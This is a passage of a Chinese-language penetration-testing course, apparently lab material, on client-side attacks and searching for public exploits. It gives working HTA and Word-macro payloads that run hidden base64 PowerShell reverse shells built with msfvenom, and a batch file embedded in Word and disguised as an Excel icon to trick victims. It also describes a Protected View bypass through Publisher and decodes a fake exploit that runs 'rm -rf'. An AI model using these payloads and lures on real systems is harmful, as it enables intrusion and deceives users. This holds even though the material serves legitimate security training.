在这个示例中，我们将利用 `ActiveXObjects`[^activex_obj]，它可能（并且危险地）提供对底层操作系统命令的访问。这可以通过 Windows Script Host 功能或 `WScript`[^wscript] 实现，特别是通过 Windows Script Host Shell 对象[^wsh_shell]。

[^activex_obj]: (Microsoft, 2017), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Microsoft_Extensions/ActiveXObject
[^wscript]: (Microsoft, 2015), https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/atsyd31(v=vs.84)
[^wsh_shell]: (Microsoft, 2015), https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/aew9yb99(v=vs.84)

一旦我们实例化了一个 Windows Script Host Shell 对象，我们就可以调用其 `run` 方法[^run_method]，以在目标客户端机器上启动应用程序。

[^run_method]: (Adersoft, 2019), http://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640be32ea.asp

让我们创建一个简单的概念验证 HTML 应用程序来启动命令提示符：

```html
<html>
<body>
<script>
    var c='cmd.exe'
    new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

# 列表 387 - 用于打开 cmd.exe 的 HTA 文件

我们可以将这段代码放在 Kali 机器上的一个文件中（`poc.hta`），并通过 Apache Web 服务器提供服务。一旦受害者使用 Internet Explorer 访问此文件，他们就会看到图 243 中所示的弹出对话框。


*图 243：第一个对话框*

这个对话框是尝试执行一个 `_.hta_` 文件的结果。选择 *打开* 会触发另一个额外的对话框：


*图 244：第二个对话框*

第二个对话框的出现是因为 Internet Explorer 的沙盒保护（也称为 *保护模式*）<sup>346</sup> 默认处于启用状态。受害者可以选择 *允许* 来授权该操作，这将执行 JavaScript 代码并启动 `cmd.exe`，如图 245 所示。

> 346 (Microsoft, 2011). https://technet.microsoft.com/en-us/windows/bb250462(v=vs.60)


*图 245. 打开的 cmd.exe*

在 `mshta.exe` 执行期间，它会在我们的命令提示符背后保持一个额外的窗口打开。为了避免这种情况，我们可以更新我们的概念验证（PoC），使用 `.close();` 对象方法关闭这个窗口，如下所示：

```html
<html>
<head>
<script>
    var c='cmd.exe'
    new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
    self.close();
</script>
</body>
</html>
```

*列表 388 - 更新后的概念验证*

这演示了 HTA 漏洞利用的基本功能，但我们需要付出更多努力将其转化为攻击。我们不再使用 `Run` 方法启动 `cmd.exe`，而是转而使用功能更强大且能力更全面的 PowerShell 框架。

# 13.3.2 *HTA 攻击实战*

我们将使用 `msfvenom` 将我们的基本 HTML 应用程序转化为攻击，依赖 `hta-psH` 输出格式创建基于 PowerShell 的 HTA 负载。在列表 389 中，生成了完整的反向 shell 负载并将其保存到文件 `evil.hta` 中。

```bash
kali@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psH -o /var/www/html/evil.hta

No platform was selected, choosing Msf::Module::Platform::Windows from the payload

No Arch selected, selecting Arch: x86 from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 324 bytes
```


Final size of hta-psH file: `6461` bytes

**Saved as:** `/var/www/html/evil.hta`

```
*列表 389 – 使用 msfvenom 创建 HTA 负载*
```

让我们逐步检查列表 390 中生成的 **evil.hta** 文件，以更好地了解其工作原理。首先要注意的一点是，变量名已被随机化，目的是欺骗检测和防病毒软件。

```bash
kali@kali:~$ sudo cat /var/www/html/evil.hta
<script language="VBScript">
window.moveTo -4000, -4000
Set iKqr88WfyuiK = CreateObject("Wscript.Shell")
Set t6tI2tnp = CreateObject("Scripting.FileSystemObject")
For each path in Split(iKqr88WfyuiK.ExpandEnvironmentStrings("%P$ModulePath"), ",")
If t6tI2tnp.FileExists(path + "\\powershell.exe") Then
iKqr88WfyuiK.Run "powershell.exe -nop -w hidden -e aQ8maCgAHwB3AG4ADABQAHQAcg...
```

*列表 390 – msfvenom 生成的 HTA 文件内容摘录*

在列表 390 的高亮行中，请注意 PowerShell 是通过 Windows Scripting Host 的 *Run* 方法执行的，并附带三个命令行参数。

第一个参数，**-nop**，是 **NoProfile** 的简写，$^{347}$ 它指示 PowerShell 不加载 PowerShell 用户配置文件。

当 PowerShell 启动时，它默认会加载任何现有的用户配置文件脚本，这可能会对我们的代码执行产生负面影响。此选项可以避免这种潜在问题。

接下来，我们的脚本使用 **-w hidden**（**-WindowStyle**$^{348}$ **hidden** 的简写）以避免在用户桌面上创建窗口。

最后，极其重要的 **-e** 标志（**-EncodedCommand** 的简写）允许我们将 Base64 编码$^{349}$ 的 PowerShell 脚本直接作为命令行参数提供。

我们将这个新的 HTA 应用程序托管在我们的 Kali 机器上，并启动一个 Netcat 监听器以测试我们的攻击。然后，我们将模拟受害者，浏览到恶意 URL 并接受两个安全警告。如果一切按计划进行，我们应该能够捕获到一个反向 shell：

```bash
kali@kali:~$ nc -lnvp 4444 
listening on [any] 4444 ... 
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 50260 
Microsoft Windows [Version 10.0.17134.590] 
(C) 2018 Microsoft Corporation. All rights reserved. 
C:\Users\offsec> 
```

列表 391 - 来自 HTA 活动的反向 shell

这种攻击向量允许我们通过 Internet Explorer 攻陷 Windows 客户端，而无需特定的软件漏洞存在。由于指向 HTML 应用程序的链接可以通过电子邮件分发，我们甚至还可以攻陷位于 NAT 后方的内部客户端。

### 13.2.2.1 练习

- 1. 使用 msfvenom 生成一个 HTML 应用程序，并使用它来攻陷你的 Windows 客户端。
- 2. 是否可以使用 HTML 应用程序攻击 Microsoft Edge 用户，如果可以，该怎么做？

### 13.3 利用 Microsoft Office

在利用客户端漏洞时，使用受害者日常工作中信任的应用程序非常重要。与看起来可疑的网页链接不同，Microsoft Office$^{350}$ 客户端攻击通常很成功，因为很难将恶意内容与良性内容区分开来。在本节中，我们将探索利用 Microsoft Office 应用程序的各种客户端攻击向量。

#### 13.3.1 安装 Microsoft Office

在我们开始利用 Microsoft Office 之前，必须在 Windows 10 学生虚拟机上安装它。

我们通过文件资源管理器导航到 `C:\tools\client_side_attacks\Office2016.img` 并双击它来实现此操作。这将把该文件加载为虚拟 CD，并允许我们如图 246 所示从 `Setup.exe` 开始安装。

> 350 (Microsoft, 2019), https://www.office.com/


安装完成后，我们点击启动屏幕上的“关闭”以退出安装程序，并从开始菜单打开 Microsoft Word。一旦 Microsoft Word 打开，将显示如图 247 所示的弹出窗口。我们可以点击右上角高亮的叉号来关闭它，从而开始 7 天试用。


最后一步，显示一个许可协议弹出窗口，必须通过按“接受”并启动 Word 来接受，如图 248 所示。


图 248：接受许可协议

安装并配置好 Microsoft Office（特别是 Microsoft Word）后，我们即可开始深入挖掘如何将其滥用于客户端代码执行。

#### 13.3.2 Microsoft Word 宏

Microsoft Word 宏可能是最古老且最知名的客户端软件攻击向量之一。

Microsoft Office 应用程序（如 Word 和 Excel）允许用户嵌入宏，这是一组命令和指令，按程序方式组合在一起以完成任务。$^{351}$ 组织通常使用宏来管理动态内容并将文档与外部内容链接。更有趣的是，宏可以使用 Visual Basic for Applications (VBA) 从零开始编写，$^{352}$ 这是一种功能完备的脚本语言，拥有对 ActiveX 对象和 Windows 脚本宿主完全访问权限，类似于 HTML 应用程序中的 JavaScript。

创建 Microsoft Word 宏很简单，只需选择“视图”选项卡并选择“宏”。如图 249 所示，我们只需输入宏的名称，并在“宏位于”下拉框中选择宏将插入的文档名称。点击“创建”后，一个简单的宏框架将被插入到我们的文档中。


图 249：创建 Microsoft Word 宏

让我们检查我们的简单宏（如列表 392 所示）并讨论 VBA 的基础知识。我们在 VBA 宏中使用的主要过程以关键字 *Sub*$^{353}$ 开始，以 *End Sub* 结束。这基本上标志着我们宏的主体部分。

> *VBA 中的 Sub 过程与 Function 非常相似。区别在于，Sub 过程不能用于表达式中，因为它们不返回值，而 Function 可以。*

此时，我们的新宏 *MyMacro()* 只是一个空的过程，以及几行以撇号开头的行，这标志着 VBA 中注释的开始。

```vba
Sub MyMacro()
'    
' MyMacro Macro
'    
'    
End Sub
```

列表 392 - 默认空宏

$^{353}$ (Microsoft, 2017), https://docs.microsoft.com/en-us/office/vba/Language/Concepts/Getting-Started/calling-sub-and-function-procedures

正如我们之前所做的那样，要通过 ActiveX 调用 Windows 脚本宿主，我们可以使用 `CreateObject` 函数配合 `Wscript.Shell` 的 Run 方法。该宏的代码如下所示：

```vba
Sub MyMacro()
    CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

*列表 393 - 打开 cmd.exe 的宏*

由于 Office 宏不会自动执行，我们必须利用两个预定义过程，即 `AutoOpen` 过程和 `Document_Open` 过程。前者在新文档打开时执行，后者在已打开文档重新打开时执行。这两个过程都可以调用我们的自定义过程，从而运行我们的代码。

我们更新后的 VBA 代码见下文中的列表 394。

```vba
```


```vba
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

*列表 394 - 自动执行 `cmd` 的宏*

我们必须将包含该文档的文件保存为 `.docm` 或旧的 `.doc` 格式，这两种格式支持嵌入宏，但必须避免使用不支持宏的 `.docx` 格式。

当我们重新打开包含宏的文档时，会出现安全警告（图 250），提示宏已被禁用。我们必须点击 *启用内容* 才能运行宏。这是 Microsoft Office 的默认安全设置。虽然可以完全禁用宏的使用以防止此类攻击，但由于宏在大多数环境中常用，它们通常处于启用状态。

[^354]: (Microsoft, 2017), https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createobject-function
[^355]: (Microsoft, 2017), https://docs.microsoft.com/en-us/office/vba/api/Word.Documents.Open


一旦按下 *启用内容* 按钮，宏将执行并打开一个命令提示符窗口。

在现实世界中，如果受害者没有点击 *启用内容*，攻击将会失败。为了克服这一点，受害者必须不了解潜在后果，或者被文档的呈现充分诱导从而点击该按钮。

与最初的 HTML 应用程序类似，命令执行只是一个开始，但反向 shell 会好得多。为此，我们将再次借助 PowerShell，并复用使用 Base64 编码字符串执行 Metasploit shellcode 的能力。

为了实现这一点，我们将声明一个类型为 *String* 的变量（`Dim`[^356]），其中包含我们要执行的 PowerShell 命令。我们将在宏中添加一行，为字符串变量保留空间：

```vba
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

*列表 395 - 创建我们的第一个字符串变量*

我们可以将 Base64 编码的 PowerShell 脚本作为单个 *String* 嵌入，但 VBA 对字面字符串有 255 个字符的限制。此限制不适用于存储在变量中的字符串，因此我们可以将命令分成多行并进行连接。

我们将使用一个简单的 Python 脚本来分割命令：

```python
str = "powershell.exe -nop -w hidden -e jABzACAAAPQgAeAE4AZQB3AC...."
n = 50
for i in range(0, len(str), n):
    print "Str = Str + ' ' + ' '+ str[i:i+n] + '"
```

*列表 396 - 分割 Base64 编码字符串的 Python 脚本*

将 Base64 编码字符串分割成较小的块后，我们可以如列表 397 所示更新我们的利用代码。

```vba
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = "powershell.exe -nop -w hidden -e JAzBzCAAPQGAQE4AZ"
    Str = Str + "QB3AC0ATwBiAGoAQSBjAHQAABE8ALgBNAgUAbQBvAHIAeQB"
    Str = Str + "TAHQAcgBLAGBAQAbQAoAwWWbwDAGsAbgB2AGUAcgBoAF8AGAGA"
    Str = Str + "EYAcBgVAQ0QgBhAMAZQ2A2ADQAwBOAhIAAgUAGcKAAAnAg"
    Str = Str + "ANABzAEkAQBBAEAAQQBBEAAQVBEAAATAAxAfaGAYACsAY"
    Str = Str + "gBTAEIARAaVA g4ARQBQUDA5AAVgGZAwBDAFoQWBJFAOUIgB"
    ...
    Str = Str + "AZQBzAHMAAQbVA4AtQBVAQAZQbADoAGBeAGUAYwBvAGAO"
    Str = Str + "ABYAGUAcbwBzAckADQAKACQcwB0AHIAZQBhAgBI AA9AACATGB"
    Str = Str + "LAHcALQBPAGIAAgBLAGAADAAgAEKATwAwAFMADByAGUAYQBTA"
    Str = Str + "FI2DQBhAGQAZQByAcgAJABAhoAoQBwAcADQAKAGKAZQBACAK"
    Str = Str + "QABZAhAQAcgBLAGBAQAUFAFZQBhAQAVABAEUAGBkACgAK"
    Str = Str + "QA="
    CreateObject("Wscript.Shell").Run Str
End Sub
```

*列表 397 - 调用 PowerShell 以创建反向 shell 的宏*

保存 Word 文档，关闭它并重新打开，将自动执行宏。请注意，只有当文档名称改变时，宏安全警告才会再次出现。如果我们在打开更新后的文档之前启动了一个 Netcat 监听器，我们会发现该宏运行得完美无缺：

```
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 59111
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Offsec>
```

*列表 398 - 来自 Word 宏的反向 shell*

### 13.3.2.1 练习

- 使用 HTA 攻击中的 PowerShell 载荷创建一个 Word 宏，将反向 shell 发送到你的 Kali 系统。

#### 13.3.3 对象链接与嵌入

另一种流行的针对 Microsoft Office 的客户端攻击利用了动态数据交换 `DDE`[^357]，从 Office 文档内部执行任意应用程序[^358]，但自 2017 年 12 月起已修补此漏洞。[^359]

然而，我们仍然可以利用对象链接和嵌入 `OLE`[^360] 来滥用 Microsoft Office 的文档嵌入功能。

在这个攻击场景中，我们将在 Microsoft Word 文档中嵌入一个 Windows 批处理文件[^361]。

Windows 批处理文件是一种较旧的格式，通常被更现代的 Windows 原生脚本语言（如 VBScript 和 PowerShell）所取代。然而，即使在 Windows 10 上，批处理脚本仍然完全可用，并允许执行应用程序。以下列表展示了一个初始的概念验证批处理脚本（`launch.bat`），它用于启动 `cmd.exe`：

```batch
START cmd.exe
```


### *列表 399 - 启动 `cmd.exe` 的简单批处理文件*

接下来，我们将把上述脚本包含在一个 Microsoft Word 文档中。我们将打开 Microsoft Word，创建新文档，导航到“插入”选项卡，并点击“对象”菜单。在这里，我们将选择“从文件创建”选项卡，并选择我们新创建的批处理脚本 `launch.bat`：


[^357]: (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/dataxchg/about-dynamic-data-exchange?redirectedfrom=MSDN
[^358]: (SensePost, 2017), https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/
[^359]: (Microsoft, 2017), https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/ADV170021
[^360]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Object_Linking_and_Embedding
[^361]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Batch_file


我们还可以更改批处理文件在 Word 文档中的外观，使其看起来更无害。为此，我们只需勾选 *作为图标显示* 复选框并选择 *更改图标*，这将调出图 252 中看到的菜单框，允许我们进行修改：


尽管这是一个嵌入的批处理文件，Microsoft 允许我们为其选择不同的图标并输入标题，受害者看到的将是标题，而不是实际的文件名。在上面的示例中，我们选择了 Microsoft Excel 的图标以及名称 **ReadMe.xls**，以完全隐藏批处理文件，试图降低受害者的警惕性。接受菜单选项后，批处理文件将被嵌入到 Microsoft Word 文档中。接下来，必须诱使受害者双击它并接受图 253 中显示的安全警告：


一旦受害者接受了警告，**`cmd.exe`** 就会启动。再一次，我们拥有了执行任意程序的能力，必须将其转换为执行带有 Base64 编码命令的 PowerShell。这次转换非常简单，我们只需将 **cmd.exe** 更改为之前使用的 PowerShell 调用即可，如清单 400 所示。

```
START powershell.exe -nop -w hidden -e JABzACAAcAPAQgAEA4AQZQBAACQATwBIAGoAZQB...
```

*清单 400 · 启动反向 Shell 的批处理文件*

在嵌入更新后的批处理文件后，双击它将产生一个可用的反向 Shell。

```
kali@kali:~$ nc -lvnp 4444

listening on [any] 4444 ...

connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 50115

Microsoft Windows [Version 10.0.17134.590]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Offsec>
```

*清单 401 · 从我们的 OLE 对象接收到的 Shell*

### 13.3.3.1 练习

- 1. 使用 PowerShell 载荷创建批处理文件并将其嵌入 Microsoft Word 文档中，以向你的 Kali 系统发送反向 Shell。

### 13.3.4 绕过受保护视图

当此 Microsoft Word 文档在本地提供时非常有效，但当通过电子邮件或下载链接从互联网提供时，我们必须绕过另一层保护，即 *受保护视图*，³⁶² 该视图会禁用文档中的所有编辑和修改，并阻止宏或嵌入对象的执行。

为了模拟这种情况，我们将包含嵌入批处理文件的 Microsoft Word 文档复制到我们的 Kali 机器上，并在 Apache 服务器上托管它。然后，我们可以从服务器下载该文档并在受害者的机器上打开它。此时，如图中 254 所示，*受保护视图* 已启用，我们无法执行批处理文件。


受害者可能会点击 *启用编辑* 并退出 *受保护视图*，但这种情况不太可能。理想情况下，我们宁愿完全绕过 *受保护视图*，一种简单的方法是使用另一个 Office 应用程序。

与 Microsoft Word 类似，Microsoft Publisher 允许嵌入对象，并且最终可以通过与 Word 和 Excel 完全相同的方式执行代码，但它不会为通过互联网传输的文档启用 *受保护视图*。我们可以使用之前应用于 Word 的策略来绕过这些限制，但缺点是 Publisher 的安装频率不如 Word 或 Excel 高。不过，如果你的指纹识别检测到安装了 Publisher，这可能是一个可行且更好的向量。

### 13.3.4.1 练习

- 1. 通过模拟从互联网下载 Microsoft Word 文档来触发受保护视图的保护。
- 2. 重用批处理文件并将其嵌入 Microsoft Publisher 文档中，以接收反向 Shell 到你的 Kali 系统。
- 3. 将文件移动到 Apache Web 服务器上，以模拟从互联网下载 Publisher 文档，并确认缺少受保护视图。

## 13.4 总结

客户端攻击向量特别阴险，因为它们利用的是客户端软件（如浏览器）中的弱点，而不是利用服务器软件。这通常涉及某种形式的用户交互和欺骗，以便客户端软件执行恶意代码。

这些攻击向量对攻击者特别有吸引力，因为它们不需要直接或可路由地访问受害者的机器。

³⁶² (Microsoft, 2019), https://support.office.com/en-us/article/what-is-protected-view-d6f09ac7-eeb9-4495-8e43-2bcdbcdb6653


在本模块中，我们描述了在此类攻击中需要考虑的一些重要因素，并演示了涉及恶意 HTML 应用程序和 Microsoft Word 文档的利用场景。

## 14. 查找公开漏洞利用

在本模块中，我们将重点介绍托管公开已知漏洞利用代码的各种在线资源。我们还将检查 Kali 中可用的离线工具，这些工具包含本地托管的漏洞利用代码。

### 14.1 注意事项

重要的是要理解，下载和运行公开漏洞利用可能会极大地危及运行该代码的任何系统。鉴于此，我们在执行前需要仔细阅读并理解代码，以确保没有负面影响。

例如，OpenOwn 是作为 SSH 的远程漏洞利用发布的。在阅读源代码时，我们注意到它要求 root 权限，这立刻引起了我们的警惕：

```
if (geteuid()) {

  puts("Root is required for raw sockets, etc.");

  return 1;

}
```

清单 402 · 在攻击机器上要求 root 权限的恶意 SSH 漏洞利用

进一步检查载荷发现了一个有趣的 jmpcode 数组：

```
[...]
char jmpcode[] =
"\x72\x6D\x20\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2F"
"\x64\x65\x76\x2F\x6e\x75\x6C\x6C\x20\x26\x26";
[...]
```

清单 403 · 恶意 SSH 漏洞利用的十六进制编码载荷

虽然它被伪装为 shellcode，但 jmpcode 字符数组实际上是一个包含恶意 shell 命令的十六进制编码字符串：

```
kali@kali:~$ python
>>> jmpcode = [
...   "\x72\x6D\x20\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2F"
...   "\x64\x65\x76\x2F\x6e\x75\x6C\x6C\x20\x26\x26"]
>>> print jmpcode
```


['rm -rf ~ / * 2> /dev/null &']

>>>

```

清单 404 · 将清除你攻击机器的恶意 SSH 漏洞利用载荷

这条单一命令实际上会清除攻击者的基于 UNIX 的文件系统。在接下来的几行中，程序将连接到公共 IRC 服务器，向全世界宣布用户的愚蠢，这使得这是一个极其危险且可能令人尴尬的恶意漏洞利用！

鉴于这种危险，我们将在此模块中依赖更值得信赖的漏洞利用仓库。

本模块中提到的在线资源在托管在线之前会分析提交的漏洞利用代码。尽管如此，即使使用这些可信资源，仔细阅读代码并对其执行时的行为有个大致的了解也是非常重要的。即使你不认为自己是一名程序员，这也是提高代码阅读技能的好方法，甚至有一天可能还能避免一些尴尬。

用低级编程语言编写且需要编译的漏洞利用通常以源代码和二进制格式托管。源代码更容易检查，但编译起来可能很麻烦。二进制文件更难以检查（没有专门的技能和工具），且运行更简单。

如果代码检查或编译太复杂，请设置一个带有干净快照的虚拟机作为漏洞利用测试环境或“沙箱”。

### 14.2 搜索漏洞利用

在渗透测试的信息收集阶段和枚举阶段之后，我们可以交叉检查发现的软件是否存在已知漏洞，以尝试找到这些漏洞的公开利用代码。

#### 14.2.1 *在线漏洞利用资源*

各种在线资源托管漏洞利用代码并向公众免费提供。在本节中，我们将介绍三个最受欢迎的在线资源。这些资源通常会对提交的漏洞利用代码进行测试，并删除被认为虚假或恶意的代码。

##### 14.2.1.1 *漏洞利用数据库*

漏洞利用数据库³⁶³ 是由 Offensive Security 维护的一个项目。³⁶⁴ 它是一个通过提交、邮件列表和公共资源收集到的公开漏洞利用的免费存档。


*图 255：漏洞利用数据库主页*


与其他在线资源相比，漏洞利用数据库偶尔会提供易受攻击版本软件的安装程序，用于研究目的。当安装程序可用时，网站上会用图标标记，如图 255 中 **A** 列所示的下载框图标。

漏洞利用数据库的更新通过 Twitter 流³⁶⁵ 宣布，也可以获取 RSS 流³⁶⁶。

#### 14.2.1.2 SecurityFocus 漏洞利用存档

SecurityFocus 漏洞利用存档³⁶⁷ 网站创建于 1999 年，专注于对安全社区重要的几个关键领域：

- *BugTraQ：一个旨在讨论和宣布安全漏洞的完全公开邮件列表。
- *SecurityFocus 漏洞数据库：提供所有平台和服务的最新漏洞信息。
- *SecurityFocus 邮件列表：基于主题的邮件列表允许世界各地的研究人员讨论各种安全问题。

³⁶³ (Twitter, 2019), https://twitter.com/exploitdb
³⁶⁴ (Offensive Security, 2019), https://www.exploit-db.com/rss.xml
³⁶⁵ (SecurityFocus, 2019), https://www.securityfocus.com

SecurityFocus 通过其 Twitter 动态发布更新<sup>368</sup>，并且也提供 RSS 订阅源<sup>369</sup>。

<sup>368</sup> (Twitter, 2019), https://twitter.com/securityfocus?lang=en

<sup>369</sup> (SecurityFocus, 2019), https://www.securityfocus.com/rss/index.shtml

## 14.2.1.3 Packet Storm

Packet Storm<sup>370</sup> 成立于 1998 年。它提供最新的安全新闻、漏洞信息以及安全厂商近期发布的工具信息。


与之前提到的在线资源一样，PacketStorm 也会在 Twitter 上发布更新<sup>371</sup>，并且提供了一个 RSS 订阅源。<sup>372</sup>

<sup>370</sup> (Packet Storm, 2019). https://packetstormsecurity.com

<sup>371</sup> (Twitter, 2019). https://twitter.com/packet_storm

<sup>372</sup> (Packet Storm, 2019). https://packetstormsecurity.com/feeds

## 14.2.1.4 Google 搜索运算符

除了上述涵盖的各个独立网站外，我们还可以使用传统搜索引擎查找更多的漏洞利用（exploit）托管站点。

我们可以开始搜索特定的软件及其版本，后跟“漏洞利用”关键词，并包含各种搜索运算符（例如 Google 搜索引擎使用的运算符 <sup>373</sup> ）来缩小搜索范围。掌握这些高级运算符可以帮助我们将搜索结果定制为我们要寻找的确切内容。

作为一个例子，我们可以使用以下搜索查询来定位影响 Microsoft Edge 浏览器的漏洞，并将结果限制为仅那些托管在 Exploit Database 网站上的漏洞利用工具：

```bash
kali@kali:~$ firefox --search "Microsoft Edge site:exploit-db.com"
```

Listing 405 - 使用 Google 在 exploit-db.com 上搜索 Microsoft Edge 漏洞利用工具

其他可用于优化搜索的搜索运算符包括 `inurl`、`intext` 和 `intitle`。

> 使用非策划（non-curated）资源中的漏洞利用工具时请极度谨慎！

#### 14.2.2 离线漏洞利用资源

在渗透测试期间，互联网访问并不总是有保障的。在评估在隔离环境中进行的情况下，Kali Linux 发行版附带了各种提供离线漏洞利用访问权限的工具。

### 14.2.2.1 SearchSploit

Exploit Database 提供了所有托管漏洞利用代码的可下载存档副本。

Kali 中的 `exploitdb` 包默认包含此存档。我们建议在每次评估前更新该包，以确保拥有最新的漏洞利用代码。可以使用以下命令更新该包：

```bash
kali@kali:~$ sudo apt update && sudo apt install exploitdb
...
The following packages will be upgraded:
  exploitdb
1 upgraded, 1 newly installed, 0 to remove and 739 not upgraded.
Need to get 23.9 MB/24.0 MB of archives.
After this operation, 2,846 kB of additional disk space will be used.
Do you want to continue? [Y/n] Y
Get:1 http://kali.mirror.globe.tech/kali kali-rolling/main amd64 exploitdb all 2018022 Fetched 23.9 MB in 3s (8,758 kB/s)
Reading changelogs... Done
...
Setting up exploitdb (20180220-0kali1)...
```

Listing 406 - 从 Kali Linux 仓库更新 `exploitdb` 包

上述命令更新了 `/usr/share/exploits` 下 Exploit Database 存档的本地副本。该目录分为两个主要部分：`exploits`（漏洞利用）和 `shellcodes`（Shell 代码）：

```bash
kali@kali:~$ ls -l /usr/share/exploitdb/
exploits
files_exploits.csv
files_shellcodes.csv
shellcodes
```

Listing 407 - 列出存档主目录中的两个主要部分

**exploits**（漏洞利用）目录进一步划分为针对每种操作系统、架构和脚本语言的独立目录：

```bash
kali@kali:~$ ls -l /usr/share/exploitdb/exploits/
aix
android
arm
ashx
asp
aspx
atheos
beos
bsd
bsd_x86
cfm
cgi
freebsd
freebsd_x86
...
```


### Listing 408 - 列出 exploits 目录的内容

手动搜索 Exploit Database 远非理想，尤其是考虑到存档中大量的漏洞利用代码。这正是 `searchsploit` 工具派上用场之处。

我们可以在命令行中不带任何参数运行 `searchsploit` 以显示其用法：

```bash
kali@kali:~$ searchsploit

Usage: searchsploit [options] term1 [term2] ... [termN]
```

### Listing 409 - searchsploit 命令语法

如内置示例所示，`searchsploit` 允许我们搜索整个存档，并根据作为参数提供的各种搜索词显示结果。

```text
==========
 Examples
==========

searchsploit afd windows local

searchsploit -t oracle windows

searchsploit -p 39446

searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"

For more examples, see the manual: https://www.exploit-db.com/searchsploit/
```

### Listing 410 - Searchsploit 命令示例


这些选项允许我们缩小搜索范围、更改输出格式、更新数据库等：

```text
=======
 Options
=======

-g, --case [Term] Perform a case-sensitive search (Default is inSensitive).

-e, --exact [Term] Perform an EXACT match on exploit title (Default is AND) [I

-h, --help Show this help screen.

-j, --json [Term] Show result in JSON format.

-m, --mirror [EDB-ID] Mirror (aka copies) an exploit to the current working direc

-o, --overflow [Term] Exploit titles are allowed to overflow their columns.

-p, --path [EDB-ID] Show the full path to an exploit (and also copies the path

-t, --title [Term] Search JUST the exploit title (Default is title AND the fil

-u, --update Check for and install any exploitdb package updates (deb or

-w, --www [Term] Show URLs to Exploit-DB.com rather than the local path.

-x, --examine [EDB-ID] Examine the EDB-ID value using $PAGER.

--colour Disable colour highlighting in search results.

--id Display the EDB-ID value rather than local path.

--nmap [file.xml] Checks all results in Nmap's XML output with service version

Try even more combinations

--exclude="term" Remove values from results. By using "|" to separated you ca

e.g. --exclude="term1|term2|term3".
```

### Listing 411 - searchsploit 选项帮助菜单

最后，帮助菜单中的“Notes”部分揭示了有用的搜索技巧：

```text
=======
 Notes
=======

* You can use any number of search terms.

* Search terms are not case-sensitive (by default), and ordering is irrelevant.

* Use "-c" if you wish to reduce results by case-sensitive searching.

& And/Or "-e" if you wish to filter results by using an exact match.

* Use "-t" to exclude the file's path to filter the search results.

* Remove false positives (especially when searching using numbers - i.e. versions).

* When updating or displaying help, search terms will be ignored.
```

### Listing 412 - searchsploit 帮助备注

例如，我们可以使用以下语法搜索所有可用的针对 Windows 操作系统上 SMB 服务的远程漏洞利用：

```text
kali@kali:~$ searchsploit remote smb microsoft windows

Exploit Title | Path

( /usr/share/exploitdb/) | 

Microsoft DNS RPC Service - 'extractQu | exploits/windows/remote/16366.rb

Microsoft Windows - 'srv2.sys' SMB Cod | exploits/windows/remote/40280.py

Microsoft Windows - 'srv2.sys' SMB Neg | exploits/windows/remote/14674.txt

Microsoft Windows - 'srv2.sys' SMB Neg | exploits/windows/remote/16363.rb

Microsoft Windows - SMB Relay Code Exe | exploits/windows/remote/16360.rb

Microsoft Windows - SmbRelay3 NTLM Rep | exploits/windows/remote/7125.txt

Microsoft Windows - Unauthenticated SM | exploits/windows/dos/41891.rb

Microsoft Windows 2000/XP - SMB Authen | exploits/windows/remote/20.txt

Microsoft Windows 2003 SP2 - 'ERRATICI\exploits/windows/remote/41929.py

Microsoft Windows 95/Windows for Workg\exploits/windows/remote/20371.txt

Microsoft Windows NT 4.0 SP5 / Termina\exploits/windows/remote/19197.txt

Microsoft Windows Server 2008 R2 (x64)\exploits/windows/remote/41987.py

Microsoft Windows Vista/7 - SMB2.0 Neg\exploits/windows/dos/9594.txt

Microsoft Windows Windows 7/2008 R2 (x\exploits/windows/x86-64/remote/42031.py

Microsoft Windows Windows 7/8.1/2008 R\exploits/windows/remote/42315.py

Microsoft Windows Windows 8/8.1/2012 R\exploits/windows/x86-64/remote/42030.py

Shellcodes: No Result
```


### Listing 413 - 使用 searchsploit 列出可用的 Windows SMB 远程漏洞利用

### 14.2.2.2 Nmap NSE 脚本

Nmap 是最流行的枚举工具之一。该工具的一个非常强大的功能是 Nmap 脚本引擎（Nmap Scripting Engine, NSE）<sup>374</sup>，如其名称所示，它引入了使用脚本自动化各种任务的能力。

Nmap 脚本引擎附带了各种脚本，用于枚举、暴力破解、模糊测试、检测以及利用服务。Nmap 脚本引擎提供的完整脚本列表可以在 `/usr/share/nmap/scripts` 下找到。使用 `grep` 快速搜索 NSE 脚本中的“Exploits”一词会返回大量结果：

```bash
kali@kali:~$ cd /usr/share/nmap/scripts

kali@kali:/usr/share/nmap/scripts$ grep Exploits *.nse

clamav-exec.nse:Exploits ClamAV servers vulnerable to unaauthenticated clamav command execution.

